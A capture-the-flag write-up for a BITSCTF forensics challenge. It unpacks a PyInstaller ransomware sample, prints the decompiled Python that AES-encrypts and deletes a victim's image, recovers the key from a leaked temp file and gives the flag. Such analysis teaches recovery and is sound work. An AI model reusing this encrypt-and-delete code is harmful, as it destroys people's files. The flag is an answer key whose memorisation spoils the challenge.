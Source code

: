 # Lottery

## Solving

```
Now that you know the CVE, figure out how the attacker crafted the payload & executed it to compromise the 'secret'.
```
Considering the name of the challenge we see that it is based on the CVE that we examined in ``0.69 day`` where it uses the ``lottery.exe``

Using virusTotal we realise the file is packed using ``PyInstaller``

![image](https://github.com/user-attachments/assets/5d59238c-1bff-4c79-8291-292b5348550e)

We first use [pyinstxtractor](``https://github.com/extremecoders-re/pyinstxtractor``) to extract the contents of this Pyinstaller generated file

After extracting the ``.pyc`` file we can use [uncompyle6](``https://github.com/rocky/python-uncompyle6/``) to get our readable python source file back.

From here we obtain the source code for the encoding process that created secret.png.enc

```python
# uncompyle6 version 3.9.1
# Python bytecode version base 3.8.0 (3413)
# Decompiled from: Python 3.6.12 (default, Feb  9 2021, 09:19:15)
# [GCC 8.3.0]
# Embedded file name: lottery.py
import os, tempfile
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

def generate_key():
    key = os.urandom(32)
    fp = tempfile.TemporaryFile(mode="w+b", delete=False)
    fp.write(key)
    return key


def encrypt_file(file_path, key):
    iv = b'urfuckedmogambro'
    with open(file_path, "rb") as file:
        data = file.read()
        padded_data = pad(data, AES.block_size)
        cipher = AES.new(key, AES.MODE_CBC, iv)
        encrypted_data = cipher.encrypt(padded_data)
    file.close()
    encrypted_file_path = file_path + ".enc"
    with open(encrypted_file_path, "wb") as encrypted_file:
        encrypted_file.write(encrypted_data)
    os.remove(file_path)


if __name__ == "__main__":
    key = generate_key()
    file_path = "secret.png"
    encrypt_file(file_path, key)
    print("Dear MogamBro, we are fucking your laptop with a ransomware & your secret image is now encrypted! Send $69M to recover it!")
```
What this script essentially does is encrypt a file in this case our ``secret.png`` using AES encryption in CBC cipher block chaining mode.

Now the intresting part of the script is we get a ``generate_key()`` function. Which generates a random 32 byte key creates a temp file to store the key and writes it into it. Normally tho this key would not be logged.

in the encrypt_file section we see the ``iv`` Initalization vector which is used for encryption luckily we already have this.

Now our job would be just to find the key. we know it was logged earlier in a temp file. As we had used this ``fp = tempfile.TemporaryFile(mode="w+b", delete=False)`` we understand that it will probably be logged here ``C:\Users\<username>\AppData\Local\Temp\`` as it creates the file in the system's default temporary directory. We also know that it Will have a size of **32**

Now searching here we find a 32 bit file with the hex ``FBF60E95C2F3C96F36E1195538E34E30CF1A290F1C14CD5E699E476A3BE2BC5E``.

![image](https://github.com/user-attachments/assets/83a48772-34ae-41b2-ae1d-c6554ccfe99e)

Now we have the ``IV = urfuckedmogambro`` and the ``key = FBF60E95C2F3C96F36E1195538E34E30CF1A290F1C14CD5E699E476A3BE2BC5E`` Now we can just use a online decrypter such as [**cyberchef**](https://gchq.github.io/CyberChef/#recipe=AES_Decrypt(%7B'option':'Hex','string':'FBF60E95C2F3C96F36E1195538E34E30CF1A290F1C14CD5E699E476A3BE2BC5E'%7D,%7B'option':'UTF8','string':'urfuckedmogambro'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)Render_Image('Raw')&oeol=FF) where we can input it directly.

We can also have an option to render the image as it is which we choose to do so.

Hence we recieve the flag.

![image](https://github.com/user-attachments/assets/9c232c87-adb1-44c4-b9af-cdbc52a66519)

## Flag

> BITSCTF{1_r3c3ived_7h3_b0mbz}
